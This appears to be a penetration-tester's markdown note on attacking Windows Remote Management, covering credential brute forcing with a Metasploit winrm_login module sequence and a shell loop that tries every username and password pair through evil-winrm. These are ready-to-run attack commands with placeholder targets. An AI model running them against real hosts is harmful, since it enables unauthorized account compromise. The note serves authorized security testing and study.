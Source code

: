 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/WinRM/Exploitation
---
```




# Exploitation


## Brute Force

Brute force WinRM credentials using various tools and techniques


WinRM Login Utility
([winrm_login](https://www.rapid7.com/db/modules/auxiliary/scanner/winrm/winrm_login/))

> [!warning]
>
> Only works if the remote end allows Negotiate (NTLM) authentication
>
> To use this module without SSL, the `AllowUnencrypted` WinRM option
> must be set
>
> Kerberos is not currently supported

> [!example]-
>
> ```sh
> use auxiliary/scanner/winrm/winrm_login
> set RHOSTS <target>
> set USER_FILE <users.txt>
> set PASS_FILE <passwords.txt>
> run
> ```

Using Custom Script

> [!example]-
>
> ```sh
> for user in $(cat <users.txt>); do
>   for pass in $(cat <passwords.txt>); do
>     echo "Trying $user:$pass"
>     evil-winrm -i <target> -u "$user" -p "$pass" -e /tmp/test
>   done
> done
> ```
